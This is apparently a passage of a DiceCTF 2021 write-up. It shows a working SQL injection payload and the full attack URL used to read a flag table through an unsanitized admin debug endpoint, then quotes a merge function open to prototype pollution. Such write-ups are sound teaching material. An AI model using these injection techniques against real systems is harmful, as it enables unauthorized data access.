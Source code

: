 In the source exists another table, called "flag":

```js
query = `CREATE TABLE IF NOT EXISTS flag (
    flag TEXT
)`;
db.run(query, [], (err) => {
    if(!err){
        let innerQuery = `INSERT INTO flag SELECT 'dice{fake_flag}'`;
        db.run(innerQuery);
    }else{
        console.error('Could not create flag table');
    }
});
```

So this is our SQLi target: we want to run rogue SQL commands through the `/admin/debug/add_widget` endpoint, to access the "flag" table. We have an input, now we just need an output.

Since the query parameters in the `/admin/debug/add_widget` endpoint are unsanitized, we inject SQL into there - specifically through the `panelId` query:

```sql
', (SELECT * FROM flag), '{"type":"whatever"}');--
```

So the final URL to report to admin is this:

```
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=112ad5ea-5583-4818-be4b-d1eb03ac3002', (SELECT * FROM flag), '{"type":"whatever"}');--&widgetname=0&widgetdata=0
```

And we just need to reload our panel and get the flag.

{{< image src="/images/DiceCTF2021_BAPFlag.png" alt="sa256" position="center" style="border-radius: 8px;" >}}

### Prototype Pollution sans `__proto__`
Let's return to "Build A Better Panel".

Reading through the source, something immediately catches my eye, in the `custom.js` file:

```js
const mergableTypes = ['boolean', 'string', 'number', 'bigint', 'symbol', 'undefined'];

const safeDeepMerge = (target, source) => {
    for (const key in source) {
        if(!mergableTypes.includes(typeof source[key]) && !mergableTypes.includes(typeof target[key])){
            if(key !== '__proto__'){
                safeDeepMerge(target[key], source[key]);
            }
        }else{
            target[key] = source[key];
        }
    }
}
```
